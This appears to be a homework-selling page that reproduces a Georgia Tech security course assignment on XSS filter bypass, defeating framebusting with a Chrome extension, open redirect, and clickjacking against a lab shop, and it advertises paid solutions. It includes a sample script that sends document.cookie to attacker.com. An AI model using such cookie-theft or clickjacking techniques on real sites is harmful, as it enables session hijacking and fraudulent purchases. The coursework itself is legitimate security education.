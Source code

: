 # cscs6262-project-2--advanced-web-security-solved
**TO GET THIS SOLUTION VISIT:** [CSCS6262-Project 2- Advanced Web Security Solved](https://www.ankitcodinghub.com/product/cscs6262-project-%e2%80%8b2%e2%80%8b-advanced-web-security-solved/)


---

📩 **If you need this solution or have special requests:** **Email:** ankitcoding@gmail.com  
📱 **WhatsApp:** +1 419 877 7882  
📄 **Get a quote instantly using this form:** [Ask Homework Questions](https://www.ankitcodinghub.com/services/ask-homework-questions/)

*We deliver fast, professional, and affordable academic help.*

---

<h2>Description</h2>



<div class="kk-star-ratings kksr-auto kksr-align-center kksr-valign-top" data-payload="{&quot;align&quot;:&quot;center&quot;,&quot;id&quot;:&quot;74581&quot;,&quot;slug&quot;:&quot;default&quot;,&quot;valign&quot;:&quot;top&quot;,&quot;ignore&quot;:&quot;&quot;,&quot;reference&quot;:&quot;auto&quot;,&quot;class&quot;:&quot;&quot;,&quot;count&quot;:&quot;1&quot;,&quot;legendonly&quot;:&quot;&quot;,&quot;readonly&quot;:&quot;&quot;,&quot;score&quot;:&quot;5&quot;,&quot;starsonly&quot;:&quot;&quot;,&quot;best&quot;:&quot;5&quot;,&quot;gap&quot;:&quot;4&quot;,&quot;greet&quot;:&quot;Rate this product&quot;,&quot;legend&quot;:&quot;5\/5 - (1 vote)&quot;,&quot;size&quot;:&quot;24&quot;,&quot;title&quot;:&quot;CSCS6262-Project ​2​- Advanced Web Security Solved&quot;,&quot;width&quot;:&quot;138&quot;,&quot;_legend&quot;:&quot;{score}\/{best} - ({count} {votes})&quot;,&quot;font_factor&quot;:&quot;1.25&quot;}">

<div class="kksr-stars">

<div class="kksr-stars-inactive">
            <div class="kksr-star" data-star="1" style="padding-right: 4px">


<div class="kksr-icon" style="width: 24px; height: 24px;"></div>
        </div>
            <div class="kksr-star" data-star="2" style="padding-right: 4px">


<div class="kksr-icon" style="width: 24px; height: 24px;"></div>
        </div>
            <div class="kksr-star" data-star="3" style="padding-right: 4px">


<div class="kksr-icon" style="width: 24px; height: 24px;"></div>
        </div>
            <div class="kksr-star" data-star="4" style="padding-right: 4px">


<div class="kksr-icon" style="width: 24px; height: 24px;"></div>
        </div>
            <div class="kksr-star" data-star="5" style="padding-right: 4px">


<div class="kksr-icon" style="width: 24px; height: 24px;"></div>
        </div>
    </div>

<div class="kksr-stars-active" style="width: 138px;">
            <div class="kksr-star" style="padding-right: 4px">


<div class="kksr-icon" style="width: 24px; height: 24px;"></div>
        </div>
            <div class="kksr-star" style="padding-right: 4px">


<div class="kksr-icon" style="width: 24px; height: 24px;"></div>
        </div>
            <div class="kksr-star" style="padding-right: 4px">


<div class="kksr-icon" style="width: 24px; height: 24px;"></div>
        </div>
            <div class="kksr-star" style="padding-right: 4px">


<div class="kksr-icon" style="width: 24px; height: 24px;"></div>
        </div>
            <div class="kksr-star" style="padding-right: 4px">


<div class="kksr-icon" style="width: 24px; height: 24px;"></div>
        </div>
    </div>
</div>


<div class="kksr-legend" style="font-size: 19.2px;">
            5/5 - (1 vote)    </div>
    </div>
&nbsp;

<h4><span style="color: #0000ff;"><strong><a style="color: #0000ff;" href="https://www.ankitcodinghub.com/product/cs6262-project-2-advanced-web-security-fall2024-solved/">FALL2024 Solution VIEW</a></strong></span></h4>
<strong>All work needs to be done inside the VM. </strong>

<ol>
<li>Part 1 (50 Points)
<ol>
<li>Understand well known vulnerabilities such as cross-site scripting (XSS) and bypass regex detectors with your own XSS. (30 Points)</li>
<li>Understand and implement framebusting using the same extension to prevent malicious web page forgery and framing via iframes. (20 Points)</li>
</ol>
</li>
<li>Part 2 (50 Points)
<ol>
<li>Exploit a vulnerable website utilizing Open Redirect. (10 Points)</li>
<li>Exploit a vulnerable website called GTShop by utilizing clickjacking. (40 Points)</li>
</ol>
</li>
</ol>
<h1></h1>
Please refer to the Canvas assignment. ​<strong>The autograder for Part 1 will close 1 week before Part 2, to ensure you have enough time to complete Part 2, so start early if you want to leverage the autograder! </strong>

<h2><strong>Useful Suggestions </strong></h2>
Special thanks to ​<u>Joves Luo</u>​ for compiling this list of helpful tips. You should refer to them as you proceed through the project.

<h3>General</h3>
<ul>
<li>Use the console or developer tools to view Javascript errors.</li>
<li>Use console.log(“message”) or alert(“message”) to debug.</li>
<li>Most errors you encounter are likely very common and specific error messages are most likely solved via Googling.</li>
<li>View web page’s source code. Pay attention to hidden inputs. “Security by obscurity is a hacker’s best friend.”</li>
</ul>
<h3>Part 1.1: XSS</h3>
<ul>
<li>There are 3 regex patterns that you have to bypass. You will have to come up with 3 different whole script XSS attacks.</li>
<li>HTML has some very interesting syntax rules so you should refresh yourselves on what constitutes valid HTML.</li>
<li>The following link may be useful in crafting your attacks.</li>
</ul>
<a href="https://www.w3schools.com/Tags/tag_script.asp">https://www.w3schools.com/Tags/tag_script.asp</a>

<ul>
<li>Remember: you can make your attacks as crazy looking as you want them to be. As long as your attacks are composed of valid html and script, you can pass the regex and get the points.</li>
<li>Try to make a small change first. An extra character in certain places can completely bypass some regex detectors.</li>
</ul>
&nbsp;

This part is foreshadowing other parts of the project.&nbsp; You learn how to bypass XSS.&nbsp; What is XSS and Why is it blocked?&nbsp; What can it do if left unchecked?&nbsp; Keep these in mind.

&nbsp;

<h3>Part 1.2: Framebusting</h3>
<ul>
<li>Script inside the frame contains DEFENSIVE code. It prevents index.html from holding the iframe. Your job is to prevent the script from running.</li>
<li>You may find a way to run code before the script in the iframe runs, then block, replace or remove it in some way.</li>
<li><a href="https://developer.chrome.com/extensions/content_scripts">Content Scripts</a> allow you to run your javascript inside a website you are visiting via an​</li>
</ul>
It has some caveats but it is a possible approach to the problem.

<ul>
<li>Background scripts running in background enable you to INTERCEPT and MODIFY http requests. It also has some caveats but it is a feasible solution to the problem. <a href="https://crypto.stanford.edu/~dabo/pubs/papers/framebust.pdf">This paper</a> provides you useful information on framebusting​</li>
</ul>
&nbsp;

<h3>Part 2.1: Open Redirect</h3>
<ul>
<li>This is NOT a coding exercise. You compose a URL that redirects a user to the GT admission page when s/he logs in.</li>
<li>You can learn rudiments of URL in <a href="https://www.ibm.com/support/knowledgecenter/en/SSGMCP_5.3.0/com.ibm.cics.ts.internet.doc/topics/dfhtl_uricomp.html">this lin</a><u>​ </u><a href="https://www.ibm.com/support/knowledgecenter/en/SSGMCP_5.3.0/com.ibm.cics.ts.internet.doc/topics/dfhtl_uricomp.html">k</a><a href="https://www.ibm.com/support/knowledgecenter/en/SSGMCP_5.3.0/com.ibm.cics.ts.internet.doc/topics/dfhtl_uricomp.html">.</a><u>​</u></li>
<li>Write a URL that results in the redirect. Copy and paste it into redirect.txt. No code required.</li>
</ul>
&nbsp;

<h3>Part 2.2: Clickjacking</h3>
<ol>
<li>Get an iframe to run code it shouldn’t. Think back to the part 1, how did we get a victim to run unintended code? For the web, what vulnerability makes this happen? Remind your experience from CS6035, Intro to Information Security.</li>
<li>Get information about the iframe. How can we get data from another domain?&nbsp; Review related lectures.</li>
<li>How do we pass data back and forth? Take what you figured out in step 2, mirror it to get two way communication.</li>
<li>With the data, what does the parent window need to do with the info?</li>
<li>The buy action is subject to SOP. How do you get around it?</li>
<li>Once you figure out how to get around the SOP, what needs to be executed to buy something?
<ol>
<li>When you buy something, you need a correct ID only. Don’t worry about product names, addresses, mails, etc.</li>
<li>If you get a success response but nothing is actually purchased, that is because the server code swallows exceptions.</li>
<li>You need only one iframe.</li>
<li>You don’t need to bother with the tester leaving the search results page.</li>
<li>Each query will be with a fresh search from your page.</li>
</ol>
</li>
</ol>
&nbsp;

<strong>You will submit 5 files to Canvas for grading: </strong>

For the part 1 tasks, you can only zip these 3 files and upload to gradescope for testing your solution.

But <strong>please submit all the 5 files to Canvas before the whole project dues.</strong>​

Part 1

<ul>
<li><strong>json </strong></li>
<li><strong>txt </strong></li>
<li><strong>js </strong></li>
</ul>
Part 2

<ul>
<li><strong>txt </strong></li>
<li><strong>html </strong></li>
</ul>
<h2><strong>Project Setup </strong></h2>
<h3>Virtual Machine (CS6262 P2 Spring 2021.ova)</h3>
<strong>&nbsp;</strong>

<strong>All tasks need to be done inside the VM. </strong>

<strong>&nbsp;</strong>

Download a VM via the following link:

&nbsp;

<ul>
<li>Mirror #1: ​<a href="https://drive.google.com/file/d/1pOXiaejAWoMcKEXlaILmgVyYPicknhPM/view?usp=sharing">Link to OVA</a><u>​</u> on Google Drive</li>
<li>Mirror #2: <a href="https://gtvault-my.sharepoint.com/:u:/g/personal/zyang455_gatech_edu/EbgzsTsXQ5lNvnQaNq698toBMIfJXTjYMluJ7r_NCUtijA?e=p8Ouch">Link to OVA</a>​ on OneDrive​</li>
</ul>
&nbsp;

<strong>md5: 85d82922198afa2c03255dcda634774b </strong>

&nbsp;

Import the OVA file into the latest version of ​<a href="https://www.virtualbox.org/wiki/Downloads">VirtualBox</a><u>​</u><a href="https://www.virtualbox.org/wiki/Downloads">.</a> The VM may take a while to boot.

&nbsp;

The credentials are:

<strong>&nbsp;</strong>

<table width="129">
<tbody>
<tr>
<td width="129">•&nbsp;&nbsp;&nbsp; Username: ​<strong>user</strong></td>
</tr>
<tr>
<td width="129">•&nbsp;&nbsp;&nbsp;&nbsp; Password: <strong>user</strong></td>
</tr>
</tbody>
</table>
​

If you find the VM booting quite slowly, please do the following check after it first boots up. Run “​sudo blkid​” and copy the UUID of the line which contains TYPE=”swap”.

&nbsp;

Then, run “​sudo vim /etc/fstab​” and update the entry of UUID of the “swap” line.

&nbsp;

After updating it, input “​:wq​” to save and exit. Now you can reboot the VM. It should boot much faster.

&nbsp;

We do <strong>NOT</strong>​&nbsp;&nbsp;&nbsp; recommend you to update any existing packages via package managers (e.g., apt-get) or​&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; the update dialog shown below:

&nbsp;

&nbsp;

&nbsp;

In the case where you accidentally update packages and experience any malfunction, you may want to repeat the VM install with a fresh copy. Although there is no restriction for you to install any necessary packages (e.g., your favorite editors), you should do that at your own risk.

&nbsp;

<h3>Part 1 XSS and Framebuster files (part1.zip)</h3>
Download and unzip Part 1 skeleton files:

<ul>
<li>Mirror #1: <a href="https://drive.google.com/open?id=1L7KqG3Yr2N9Q159zgVL6VgVAQEWQ5x7s">https://drive.google.com/open?id=1L7KqG3Yr2N9Q159zgVL6VgVAQEWQ5x7</a>​ <a href="https://drive.google.com/open?id=1L7KqG3Yr2N9Q159zgVL6VgVAQEWQ5x7s">s</a></li>
<li>Mirror #2: <a href="https://drive.google.com/file/d/121Re9RL4XTbNZ5lT-F3skL7qn_i-0kOU">https://drive.google.com/file/d/121Re9RL4XTbNZ5lT-F3skL7qn_i-0kO</a>​ <a href="https://drive.google.com/file/d/121Re9RL4XTbNZ5lT-F3skL7qn_i-0kOU">U</a> <strong>md5: 815ad2933f951c13516caabb3ec0315b </strong></li>
</ul>
<strong>&nbsp;</strong>

Your part 1 should have the following files:

&nbsp;

&nbsp;

&nbsp;

Your demo-color-changer-chrome-extension folder should have:

&nbsp;

&nbsp;

&nbsp;

<h3>Part 2 Open Redirect and Clickjacking Files (part2.zip)</h3>
Download and unzip Part 2 skeleton files:

<ul>
<li>Mirror #1: ​<a href="https://drive.google.com/file/d/1EiLjDcSVN2TQe2R97zcx-QK2bxEvoD_O">https://drive.google.com/file/d/1EiLjDcSVN2TQe2R97zcx-QK2bxEvoD_O</a></li>
<li>Mirror #2: ​<a href="https://drive.google.com/file/d/1cSocsrSyyJH3bYGUnpw82Yr6KuGDqask/">https://drive.google.com/file/d/1cSocsrSyyJH3bYGUnpw82Yr6KuGDqask/</a></li>
</ul>
&nbsp;

<strong>md5: ae9f8b51b9806359fae14cd8c73259a4</strong>

&nbsp;

&nbsp;

&nbsp;

<strong>Project Tasks (</strong><strong>100</strong>​ <strong> points):</strong>​ <strong>&nbsp; </strong>

<strong>&nbsp;&nbsp; </strong><strong>Part 1: XSS and Framebusting (</strong>​ <strong>50</strong>​ <strong> points)</strong>​

<h2>&nbsp;&nbsp;&nbsp;&nbsp; <strong>Part 1.1: XSS Attack – (</strong><strong>30</strong>​ <strong> points)</strong>​</h2>
&nbsp;

<h3>Overview</h3>
This part aims to help you understand how you can spoof regex detectors with a maliciously crafted text string. Although it may seem to be a tempting solution, detecting XSS attacks with regex is a bad idea in reality. We want you to experience this by conducting XSS attacks with your own scripts and bypassing the vulnerable XSS defender. To this end, ​<strong>we have set up a server which is accessible inside the VM ONLY</strong>​:

&nbsp;

<a href="http://cs6262.gtisc.gatech.edu/xss/index.html">http://cs6262.gtisc.gatech.edu/</a>

&nbsp;

By copying this URL into the browser inside the VM, you are able to see two links for the two tasks in Part 1.

&nbsp;

&nbsp;

&nbsp;

The XSS link will bring you to a website containing 3 input fields. Each input will be examined by three different regex patterns. <strong>Your job is to compose 3 different XSS attacks which are able</strong>​&nbsp; <strong> to bypass those 3 regex patterns.</strong> ​ <strong>Be careful that your attacks should be EXECUTABLE</strong>​&nbsp;&nbsp;&nbsp; <strong> html code in web browsers. </strong>You can copy your code into the HTML panel on&nbsp; ​ <a href="https://jsfiddle.net/">https://jsfiddle.net</a><u>​&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; </u><a href="https://jsfiddle.net/">/</a> and run it to see if it can execute.

&nbsp;

<strong><u>IMPORTANT</u></strong>:​

<h4>1. YOUR CODE MUST BE EXECUTABLE FOR FULL CREDIT. IF YOUR CODE PASSES</h4>
OUR REGEX FILTER BUT DOES NOT EXECUTE, YOU WILL NOT RECEIVE FULL

CREDIT. (You will receive partial credit if your XSS passes the filter but DOES NOT execute. However, you won’t receive any credit in the other case (i.e., executable but failed to pass the filter)

<ol start="2">
<li>FOR GRADING PURPOSES, YOU <strong>MUST INSERT ALERT IN YOUR XSS ATTACK</strong>​ PAYLOAD.</li>
</ol>
&nbsp;

Alert is a built-in javascript function for a pop-up message. You can use it as follows:

&lt;script&gt;alert(“wazzzzaaaup”);&lt;/script&gt;

&nbsp;

You are responsible for ensuring your XSS attacks are valid HTML so that the alert should be properly interpreted and run by the web browser. Getting the SUCCESS response means your XSS attack bypassed our regex filter, but it <strong>does NOT necessarily imply that your script is</strong>​&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; <strong> executable. </strong>Again, ensure you place your XSS attack in an HTML page (or jsfiddle) and run it, to​ ensure an alert is generated (meaning it executes).

&nbsp;

On a successful attack, the web page would return results like the following. Each image shows the success and fail results respectively.

&nbsp;

&nbsp;

&nbsp;

<h3>Resources</h3>
<em>Tutorial Document </em>

The following document gives you an in-depth introduction to XSS.&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; <a href="https://docs.google.com/document/d/1F7_axXzKVdqegWQDX6HmlwNchhsaLchWieOagWVzghE">https://docs.google.com/document/d/1F7_axXzKVdqegWQDX6HmlwNchhsaLchWieOagWVzgh</a>​ <a href="https://docs.google.com/document/d/1F7_axXzKVdqegWQDX6HmlwNchhsaLchWieOagWVzghE">E</a>

&nbsp;

<em>Additional Resources </em>

You can learn the foundations of XSS and RegEx in following links:

About XSS:

<a href="https://en.wikipedia.org/wiki/Cross-site_scripting">https://en.wikipedia.org/wiki/Cross-site_scripting</a> <a href="https://gbhackers.com/xss-cross-site-scripting/">https://gbhackers.com/xss-cross-site-scripting/</a>

&nbsp;

About REGEX:

<a href="https://en.wikipedia.org/wiki/Regular_expression">https://en.wikipedia.org/wiki/Regular_expression</a> <a href="https://www.computerhope.com/jargon/r/regex.htm">https://www.computerhope.com/jargon/r/regex.htm</a> The sample_xss_attacks.txt shows some XSS samples.

<em>Whole Script XSS</em>

A whole script attack consists of opening and closing script tags that embeds JavaScript statements in-between. Attackers inject the malicious code into the victim’s page in order to exfiltrate the sandbox (e.g., Same Origin Policy) of web browsers. For example,

&nbsp;

&lt;script&gt;

document.location=​&nbsp; “http://attacker.com/saveCookie.php?cookie=”​&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; +​ document&nbsp;&nbsp;&nbsp;&nbsp; ​&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; ​.cookie; &lt;/script&gt;

&nbsp;

For more details, please read this paper:

<a href="http://seclab.cs.sunysb.edu/seclab/pubs/xss.pdf">Protection, Usability and Improvements in Reflected XSS Filters</a>

<h2>&nbsp;&nbsp;&nbsp;&nbsp; <strong>Part 1.2: Browser Extension Framebuster – (</strong><strong>20</strong>​ <strong> points)</strong>​</h2>
<h3>Background: Frame Busting</h3>
An iframe is a HTML tag that embeds another HTML document in the current web page. The origin of the embedding HTML document could be different to the one of the host webpage that a user is visiting.

&nbsp;

Frame-busting is a technique that protects clients from clickjacking. It prevents web pages from being rendered inside a frame.

&nbsp;

One method to block client-side clickjacking is to place the following JavaScript snippet in each web page:

&nbsp;

&lt;script&gt;

<strong>if</strong>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; (top != self) top.location.href = location.href;​ &lt;/script&gt;

&nbsp;

<h3>Overview</h3>
You will create a Google Chrome Extension to:

<ul>
<li>Bypass the frame busting technique used in the <u>sample website</u>​</li>
</ul>
&nbsp;

<h4>Sample Website with Frame Buster</h4>
http://cs6262.gtisc.gatech.edu/framebusting/

&nbsp;

<strong>You can only access this site inside the VM. </strong>

&nbsp;

<ul>
<li>Under the frame directory, there are two pages:</li>
<li>frame-busting-page.html</li>
<li>html</li>
<li>Your extension (which contains <em>js</em>​ ​) should bypass the frame busting technique and frame the frame-busting-page.html page into the index.html’s (under frame directory) iframe.</li>
</ul>
<h4>Example of Successful Frame Buster Buster</h4>
&nbsp;

&nbsp;

<h3>Resources</h3>
<em>Quick Start</em>

You can find the Chrome extension quickstart guide in&nbsp; ​<strong><em>Canvas -&gt; Files -&gt; Guides and Tutorials</em></strong>​. This will be helpful if you don’t have experience with Chrome Extensions.

&nbsp;

<em>Chrome Extension </em>

If you are unfamiliar with browser extension development, check out a demo extension in the <strong>demo-color-changer-chrome-extension</strong>​ folder.

&nbsp;

The most important component of a Chrome browser extension is the ​<em>manifest.json</em>​ file. It looks like:

{

“name”: ​”CS6262 Extension”​,

“description”: ​”A simple extension”​,

“version”: ​”1.0″​,

“permissions”: [

​”tabs”​,

​”notifications”

],

“background”: {

“scripts”: [​”frame_buster.js”​],

“persistent”: ​false

},

“browser_action”: {

“default_title”: ​”Does something”​,

“default_icon”: ​”icon.png”

},

“manifest_version”: 2​

}

&nbsp;

The JSON file shows various keys like <strong>browser_action</strong>​&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; , ​ <strong>permissions</strong>​&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; , and ​&nbsp;&nbsp; <strong>background</strong>​&nbsp;&nbsp; . You use​&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; them to complete this part of the project. For further information about the typical Chrome extension structure, refer to this link:

<a href="https://developer.chrome.com/extensions/getstarted">https://developer.chrome.com/extensions/getstarted</a>

&nbsp;

Note: <strong>The manifest.json file should only reference your frame_buster.js file. If you leave</strong>​&nbsp; <strong> references to other files like icon.png, your manifest.json will error out and you will not receive points. </strong>

&nbsp;

For further reading, refer to <a href="https://developer.chrome.com/extensions/webRequest">https://developer.chrome.com/extensions/webReques</a><u>​ </u><a href="https://developer.chrome.com/extensions/webRequest">t</a>

&nbsp;

<h2><strong>Part 1 Grading </strong></h2>
&nbsp;

<h3>Part 1.1 XSS Requirements</h3>
<ul>
<li>You may not use the same XSS attack on multiple inputs. <strong>Each attack must be unique!</strong>​ <strong> Each pair of similar attacks will result in a 2-point penalty. </strong></li>
<li>Hard coded ‘Success’ is prohibited and will result in a 0.</li>
<li>Your three answers should <strong>be placed on three separate lines in xss_attacks.txt</strong>​</li>
<li>No external libraries are allowed.</li>
<li>Code must be executable.</li>
</ul>
&nbsp;

<h3>Part 1.2 Frame Busting Requirements</h3>
<ul>
<li>Do not use the “sandboxing attribute” of the browser to bypass the frame buster. Doing so will result in zero credit.</li>
<li>Your extension must not pop up any kind of alerts which requires user interaction.</li>
<li>You may use automatic notifications but no JavaScript alerts.</li>
<li>Pop-ups that require user interaction will result in zero credit.</li>
<li>Please make sure the page can be loaded within 3 seconds, otherwise it will result in zero credit.</li>
<li>Do NOT hardcode any URLs in your source code. Your extension should work for ANY website if the same vulnerability is present. Otherwise, a 10 point penalty will be applied to your project grade.</li>
<li>Your extension must work for the original Google Chrome in the given VM. We will not grade your extension outside the VM nor with other versions of Google Chrome in any different environment.</li>
<li>Your extension must not modify the appearance of the framed page. It should look exactly the same, <strong>pixel-by-pixel</strong>​ . Otherwise, a ​&nbsp;&nbsp;&nbsp;&nbsp; <strong>10</strong>​&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; <strong> point penalty</strong> will be applied to your project​</li>
<li>Remove all references to files other than frame_buster.js from your manifest.json. You should not reference any other file like icon.png etc. Referencing files other than frame_buster.js may result in a 0 for this portion.</li>
<li>No external libraries are allowed.</li>
</ul>
<h3>Deliverables</h3>
<ul>
<li><strong>json </strong></li>
<li><strong>txt </strong></li>
<li><strong>js </strong></li>
</ul>
&nbsp;

<h3>Autograder</h3>
GradeScope has an autograder setup to test your submissions. For the XSS task, it has the same XSS filters as what are used by the XSS website. For the framebusting task, it primarily tests the functionality of your extension which is to prevent the page from going to <em>frame-busting-page.html</em>​.

The autograder will close <strong>on February 19th.</strong>​

<strong><em>&nbsp;</em></strong>

<h3>Rubric</h3>
<table width="563">
<tbody>
<tr>
<td width="78"><strong>Points </strong></td>
<td width="485"><strong>Milestone </strong></td>
</tr>
<tr>
<td width="78"><strong>20 </strong></td>
<td width="485">Successfully bust the frame buster. We will try ​<strong>20</strong>​ ​<strong>times</strong>​ and award 1 point per successful result.</td>
</tr>
<tr>
<td width="78"><strong>5 </strong></td>
<td width="485">XSS first input passes regex filter</td>
</tr>
<tr>
<td width="78"><strong>5 </strong></td>
<td width="485">XSS first input is executable html</td>
</tr>
<tr>
<td width="78"><strong>5 </strong></td>
<td width="485">XSS second input passes regex filter</td>
</tr>
<tr>
<td width="78"><strong>5 </strong></td>
<td width="485">XSS second input is executable html</td>
</tr>
<tr>
<td width="78"><strong>5 </strong></td>
<td width="485">XSS third input passes regex filter</td>
</tr>
<tr>
<td width="78"><strong>5 </strong></td>
<td width="485">XSS third input is executable html</td>
</tr>
<tr>
<td width="78"><strong>-2 </strong></td>
<td width="485">For each pair of XSS attacks whose similarity ratio of two attacks is greater than&nbsp; 90%. ​<strong> Submitting similar XSS attacks will result in at most a 6-point penalty.&nbsp; </strong>​It’s measured by JavaScript library below

`​stringSimilarity.​compareTwoStrings​(a, b)
</td>
</tr>
</tbody>
</table>
<strong>Part 2: GTShop Vulnerabilities – (</strong>​<strong>50</strong>​<strong> points) </strong>

<h3>Overview</h3>
The objective of this part is to help you understand some vulnerabilities that can be exploited in websites in a practical fashion.

&nbsp;

You will be exploiting open redirect and clickjacking vulnerabilities. This portion of the project is broken into two parts: <strong>Open Redirect</strong>​&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; and ​&nbsp;&nbsp;&nbsp; <strong>Clickjacking</strong>​&nbsp;&nbsp; .​

Inside the VM, open Firefox by clicking on the browser icon located near the Start Menu. The browser should automatically bring you to the GTShop web page. If not, navigate to http://www.gtshop.com/. You should see an online store that allows you to buy products.

&nbsp;

&nbsp;

&nbsp;

<strong>Note</strong>​: This shop is only accessible within the VM. Accessing the URL outside of the VM will bring you to a different website.

&nbsp;

<table width="574">
<tbody>
<tr>
<td colspan="2" width="574">The GTShop has several vulnerabilities, which include susceptibility to open redirect and</td>
</tr>
<tr>
<td width="78">clickjacking.</td>
<td width="496"></td>
</tr>
</tbody>
</table>
<h1>Part 2.1: Open Redirect (​10​ points)</h1>
<h2>Overview</h2>
Open redirect is a session management related vulnerability that redirects the user to an unchecked domain or site. Generally, this vulnerability may be benign, but it can be used as a channel to deliver a browser exploit by redirecting users to a specifically crafted site.

Assumptions

<ul>
<li>The user is logged out of http://www.gtshop.com/.</li>
</ul>
<h2>Task</h2>
<strong>Provide a URL in redirect.txt that redirects the user to</strong>​ the ​<strong>Georgia Tech Mug</strong>​ after he or she logs into http://www.gtshop.com/. The URL should be on the first line of redirect.txt. All other lines will be ignored by the autograder.

&nbsp;

<strong><u>Caution:</u></strong> <u>​ </u>Giving a URL for a product page will not secure your full credits. We are expecting a​&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; redirect attack, not a URL of a specific product page. ​<strong>To be specific, for the Georgia Tech </strong>

<strong>Coffee Mug, http://www.gtshop.com/products/detail?id=1 is NOT an expected answer. </strong>

&nbsp;

<h2>Example of Successful Open Redirect Exploit</h2>
&nbsp;

<h1>Part 2.2: Clickjacking (​40​ points)</h1>
<h2>Overview</h2>
Clickjacking is a spoofing attack that overlays a transparent iframe (or other DOM objects) over other visible web components such as buttons, images or links. When users click on the visible objects, they will be clicking on the iframe instead, which triggers an unintended behavior different to what the user expected. In this part, you will try clickjacking to lure users to purchase an item in GTShop while they don’t even perceive it.

&nbsp;

We have provided you with a skeleton file, ​<strong>clickjack.html</strong>​. It renders a dummy form that contains a text field for entering a query string and two buttons. The form does nothing out of the box.

&nbsp;

<strong>Your first task is</strong>​ to add functionalities to the dummy form. ​<strong>When the user types a string in the text field</strong>​ and ​<strong>clicks on</strong>​ the ​<strong>I’m Feeling Lucky</strong>​ button, s/he ​<strong>performs a product search on the </strong>

<strong>GTShop with that same query string</strong>​. This should bring search results of the product to the user.

&nbsp;

The search results page shows an ​<strong>Info</strong>​ link &nbsp;next to each product that was found. Clicking on the ​<strong>Info</strong>​ link &nbsp;brings you to the product details page.

&nbsp;

Your ​<strong>second task is to modify clickjack.html </strong>​such that ​<strong>when the user clicks on</strong>​ ​<strong>any</strong>​ of the <strong>Info</strong>​ links on the search results page, then ​<strong>s/he ends up purchasing the corresponding item</strong>​.

<strong><em>&nbsp;</em></strong>

<h2>Assumptions</h2>
<ul>
<li>The user is already logged into http://www.gtshop.com/.</li>
<li>You do not need to worry about the product Stalker Copter since it was sold out.</li>
<li>There is a known bug for GTShop website, “Finals Avoider” was sold out but not in the description, and cannot be purchased.</li>
<li>We will not add or remove products from the shop.</li>
<li>The query strings we test will return at least one product.</li>
<li>You only need to care about the product name and id being purchased.</li>
</ul>
&nbsp;

&nbsp;

Finally, to copy files onto the provided vm, you can use some type of file storage service such as onedrive or google drive.

&nbsp;

<h2>Instructions to position overlays</h2>
In order to learn where to put the overlay, one needs to understand how CSS works. <a href="https://www.w3schools.com/html/html_css.asp">https://www.w3schools.com/html/html_css.asp</a> provides a quick example of what CSS is and how​&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; it can modify the HTML page. The ways of positioning the overlay can be found here <a href="https://www.w3schools.com/css/css_positioning.asp">https://www.w3schools.com/css/css_positioning.asp</a>.​

&nbsp;

Basically, you have two approaches to put the overlays.

<ul>
<li><strong>Put the overlays in your own malicious HTML</strong> which is the clickjack.html. This​ approach requires you to build a communication bridge between your malicious HTML and the real shopping site by exploiting the vulnerabilities of <a href="http://www.gtshop.com/">gtshop.co</a><u>​ </u><a href="http://www.gtshop.com/">m</a><a href="http://www.gtshop.com/">.</a><u>​</u> The API</li>
</ul>
you can use is window.postMessage. Here you can find more details,

